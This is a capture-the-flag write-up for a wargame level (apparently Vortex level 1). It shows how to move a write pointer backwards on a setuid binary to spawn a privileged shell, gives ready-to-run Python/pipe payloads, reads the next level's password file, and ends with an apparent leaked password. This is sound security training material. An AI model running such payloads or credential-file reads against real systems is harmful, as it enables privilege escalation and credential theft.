 ESP --> 0xffffd520
ptr = 0x18(ESP) = 0xffffd538 --> 0xffffd63c
buffer = 0x1c(ESP) = 0xffffd53c

1. we can only write where ptr is pointing at (initially at 0xffffd63c)
2. ptr is located at $ESP+0x18 (from gdb), 
	ESP initially is at 0xffffd520
	ESP+0x18 = ESP+24 = 0xffffd538
3. So, we have to move the writing pointer to write at $ESP+0x18 located.
4. To move the writing pointer, from the program:
	type '\' : ptr--
	type other: ptr++
5. Therefore, moving the writing pointer back (0xffffd63c - 0xffffd538) = 260 
	Which means, type '\' * 260 times, then type '\xCA'
6. But when comparison, the program only check 'ptr' against 0xCA000000, which is the last byte of the 'ptr' pointer, so we only need to type '\' * 257 times then type '\xCA'. Let the '\xCA' saved, then put another character of anything to trigger the e() method again.
7. we can input into the program in another 2 ways(rather than type it in). We can use PIPE or REDIRECT, for example:
	using PIPE method : python -c 'print "\\"*257 +"\xCA"+"a"' | /vortex/vortex1
	or
	using REDIRECT method, by write to a file first, then redirect : 
		python -c 'print "\\"*257 +"\xCA"+"a"' > /tmp/anidear_vt1;
		/vortex/vortex1 < /tmp/anidear_vt1
8. Then comes the problem of EOF, either of the method will result in sending EOF(end-of-file) to the new spawn process(/bin/sh), which results in closing the shell.
9. by using 'cat' command to re-open the STDIN (for us to type in commands), after finish sending the exploit. So, we can:
	with PIPE method : 
		(python -c 'print "\\"*257 +"\xCA"+"a"'; cat) | /vortex/vortex1
	or
	with file method :
		(cat /tmp/anidear_vt1; cat) | /vortex/vortex1
		or
		(cat /tmp/anidear_vt1 - ) | /vortex/vortex1

10. After getting a shell, just 'cat /etc/vortex_pass/vortex2'. The password for next level is there.


OTHER WORK:
	- to compile code: gcc -o vortex1 -m32 -fno-stack-protector -Wl,-z,norelro vortex1.c

	- DEBUGGING
		- gdb /vortex/vortex1  		<<< To debug the process
		- disas						<<< (disassemble) show diassembly code of the process
		- b *0x080485b7				<<< (breakpoint) set breakpoint at 0x080485b7 (after mov    0x18(%esp),%eax) to read value in $eax, which is now the value of 'ptr'
		- r 						<<< (run) to run the process from start
		- r < /tmp/anidear_vt1		<<< (run) to run the process with arguments
		- x/x $eax					<<< view value in $eax
		- set $eax=0xca000000 		<<< set value in $eax to 0xCA000000
		- n 						<<< (next) run until exit the function
		- ni 						<<< (next instruction), step over
		- delete breakpoints		<<< delete all breakpoints
		- set inferior-tty /dev/pts/1 <<< enable STDIN for the child process
		- c 						<<< continue executions, runs
		- s   or   si				<<< (step) run next instruction, step into
		- start 					<<< just start the process, but not run

	- Conclusion with gdb debugging
		- easy to navigate and override the process flow. I can set any register to be anything as I want. 
		- the flaw is, when 'gdb' starts, it starts with our EUID (which is vortex1). When it spawn /vortex/vortex1 afterward, the process also has EUID=vortex1, which leads to /bin/sh to get the same EUID as vortex1 too.

0x080485b3 <+92>:	mov    0x18(%esp),%eax	<<<<<< where it reads from 'ptr'
0x080485b7 <+96>:	and    $0xff000000,%eax
0x080485bc <+101>:	cmp    $0xca000000,%eax		<<<<<< change to eax to 0xca000000
0x080485c1 <+106>:	jne    0x8048602 <main+171> 	
0x080485c3 <+108>:	call   0x8048440 <geteuid@plt>
0x080485c8 <+113>:	mov    %eax,%esi
0x080485ca <+115>:	call   0x8048440 <geteuid@plt>
0x080485cf <+120>:	mov    %eax,%ebx
0x080485d1 <+122>:	call   0x8048440 <geteuid@plt>

	23anbT\rE
